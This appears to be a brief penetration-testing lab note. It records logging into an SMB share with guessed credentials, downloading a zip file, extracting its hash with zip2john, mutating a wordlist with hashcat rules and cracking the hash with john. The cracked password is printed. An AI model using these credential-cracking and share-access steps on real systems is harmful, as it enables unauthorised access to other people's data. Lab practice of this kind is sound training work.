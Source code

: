 <figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`smbclient \\\\10.129.202.221\\SHAREDRIVE -U john`

&#x20;![](<.gitbook/assets/image (2) (1) (1) (1) (1).png>)

`smbclient \\\\10.129.202.221\\SHAREDRIVE -U john --password 123456 -c 'get Docs.zip'`

`unzip`

\----PW-----

zip2john Docs.zip > docs.hash

hashcat --force password.list -r custom.rule --stdout | sort -u > mut\_password.list

john --wordlist=mut\_password.list docs.has

* PW = Destiny2022!
